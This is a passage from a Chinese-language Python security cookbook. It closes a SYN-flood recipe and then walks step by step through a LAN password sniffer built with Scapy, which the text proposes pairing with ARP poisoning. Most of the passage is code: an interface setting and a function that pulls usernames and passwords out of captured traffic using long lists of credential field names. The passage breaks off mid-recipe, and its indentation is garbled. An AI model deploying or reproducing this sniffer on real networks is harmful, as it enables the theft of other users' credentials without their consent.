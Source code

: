 6.  使用所需权限运行此脚本：

```
sudo python3 syn-flooding.py  
```

# 局域网上 Python 密码嗅探器

在前面的食谱中，我们已经学会了如何用 Scapy 嗅探数据包。现在我们可以使用 Scapy 嗅探和提取数据包中的内容。这可用于获取许多协议的详细信息。我们可以尝试从这些嗅探到的数据包中获取凭据。我们可以将此嗅探器与 ARP 中毒攻击绑定，以从网络上的其他机器获取详细信息。

# 怎么做。。。

以下是通过 LAN 编写密码嗅探器的步骤：

1.  创建一个`pass-sniffer.py`文件并在编辑器中打开它。
2.  导入所需的模块：

```
from scapy.all import *
from urllib import parse  
```

3.  现在声明接口的变量：

```
iface = "en0"
conf.verb=0  
```

4.  创建一个方法来检查嗅探内容中的用户名和密码：

```
def get_login_pass(body):    
    user = None
    passwd = None    
    userfields = ['log','login', 'wpname', 'ahd_username', 
'unickname', 'nickname', 'user', 'user_name',
    'alias', 'pseudo', 'email', 'username', '_username', 'userid', 'form_loginname', 'loginname',
    'login_id', 'loginid', 'session_key', 'sessionkey', 'pop_login', 'uid', 'id', 'user_id', 'screename',
    'uname', 'ulogin', 'acctname', 'account', 'member', 'mailaddress', 'membername', 'login_username',
    'login_email', 'loginusername', 'loginemail', 'uin', 'sign-in', 'usuario']
    passfields = ['ahd_password', 'pass', 'password', '_password', 'passwd', 'session_password', 'sessionpassword', 
    'login_password', 'loginpassword', 'form_pw', 'pw', 'userpassword', 'pwd', 'upassword', 'login_password'
    'passwort', 'passwrd', 'wppassword', 'upasswd','senha','contrasena']    
     for login in userfields:
          login_re = re.search('(%s=[^&]+)' % login, body, re.IGNORECASE)
          if login_re:
              user = login_re.group()
      for passfield in passfields:
          pass_re = re.search('(%s=[^&]+)' % passfield, body, re.IGNORECASE)
         if pass_re:
             passwd = pass_re.group()    
     if user and passwd:
         return (user, passwd)  
```
